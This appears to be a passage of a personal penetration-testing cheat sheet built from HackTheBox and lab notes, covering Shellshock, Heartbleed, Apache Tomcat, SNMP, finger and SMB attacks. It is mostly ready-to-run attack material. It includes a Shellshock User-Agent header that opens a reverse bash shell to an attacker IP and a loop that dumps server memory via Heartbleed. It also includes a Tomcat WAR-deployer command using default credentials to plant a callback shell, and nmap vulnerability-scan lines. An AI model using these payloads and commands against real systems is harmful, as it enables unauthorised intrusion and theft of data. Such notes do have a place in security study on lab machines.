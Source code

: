                 - Change user agent to the following
                    "User-Agent: () { ignored;};/bin/bash -i >& /dev/tcp/10.10.14.18/4444 0>&1"
    - heartbleed
        - Must check if site is vuln to heart bleed
            > nmap -p 443 --script ssl-heartbleed 10.10.10.79
        - use the python script to gather data
            > python heartbleed.py | grep -v "00 00 00 00 00 00"
        - create sequence for output
            > for i in $(seq 1 100000); do python heartbleed.py 10.10.10.79 | grep -v "00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00" > data_dump/data_dump$i; done

### Windows IIS
    - Default directories
        - C:\inetpub\wwwroot

### Apache Tomcat Hacks
    - The default web maanger page = http://10.10.10.95:8080/manager/html
        - When logging in it may prompt you to enter a new password, for 7.0 the default was "-U tomcat -P s3cret"
    - tomcatWarDeployer
        > python tomcatWarDeployer.py -U tomcat -P s3cret -v -p 4444 -H 10.10.14.18 10.10.10.95:8080

## ipsec
    - ike-scan 
        > ike-scan 10.10.10.116

## finger
    > cd /home/dave/hackthebox/SystemsHacked/legacy-lin-sunday-10.10.10.76-DONE/finger-user-enum/
    > ./finger-user-enum.pl -U /usr/share/seclists/Username/Name/names.txt -t 10.10.10.76 -v > foundfingers

## SNMP enumeration
    - SNMP commands
        > sudo nmap -sU --open -p 161 10.11.1.0/24 -oG open-snmp.txt
        > snmp-check -c public 10.11.1.227
        > snmpwalk -c public -v1 10.11.1.227 1.3.6.1.2.1.6.13.1.3

## SAMBA/NetBIOS enumeration
    - nmap
        - ls -la /usr/share/nmap/scripts/ | grep -e "smb"
        > nmap -p139,445 -T4 -oN smb_vulns.txt -Pn --script 'not brute and not dos and smb-*' -vv -d 192.168.1.101
        > sudo nmap --script smb-vuln* -p 139,445 192.168.1.101
        > sudo nmap --script smb-enum-shares.nse -p445 10.10.10.123
        > sudo nmap -p 139,445 -vv --script=smb-vuln-cve2009-3103.nse,smb-vuln-ms06-025.nse,smb-vuln-ms07-029.nse,smb-vuln-ms08-067.nse,smb-vuln-ms10-054.nse,smb-vuln-ms10-061.nse,smb-vuln-ms17-010.nse 10.10.10.10 
